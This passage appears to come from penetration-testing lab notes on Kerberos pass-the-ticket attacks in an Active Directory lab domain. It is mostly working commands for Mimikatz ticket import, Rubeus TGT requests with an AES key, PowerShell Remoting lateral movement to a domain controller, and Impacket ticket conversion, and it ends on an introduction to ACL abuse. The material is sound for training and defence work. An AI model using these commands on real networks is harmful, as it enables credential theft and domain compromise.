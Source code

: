 > Note: Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module misc to launch a new command prompt window with the imported ticket using the misc::cmd command.

### Pass The Ticket with PowerShell Remoting 
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

#### Mimikatz - PowerShell Remoting with Pass the Ticket
```powershell
> mimikatz.exe
> privilege::debug
> kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
> exit
> powershell
```

### Rubeus - PowerShell Remoting with Pass the Ticket
#### Create a Sacrificial Process with Rubeus
```powershell
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for Lateral Movement
```powershell
> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
> powershell
> Enter-PSSession -ComputerName DC01
```

### Using Impacket Tools
With ccache file obtained Passing the Key or Overpassing the Hash, to execute impacket tools, the ccache file needs to be exported to  environment variable.
```bash
$ ticketConverter.py <kirbi||ccache> <kirbi||ccache>
$ export KRB5CCNAME=<path_to_ticket>.ccache
```

* * *

# Permissions Move
## ACL Enumeration
Attackers utilize ACE entries to either further access or establish persistence. These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the impact that these can have if applied incorrectly. They cannot be detected by vulnerability scanning tools, and often go unchecked for many years, especially in large and complex environments. During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:
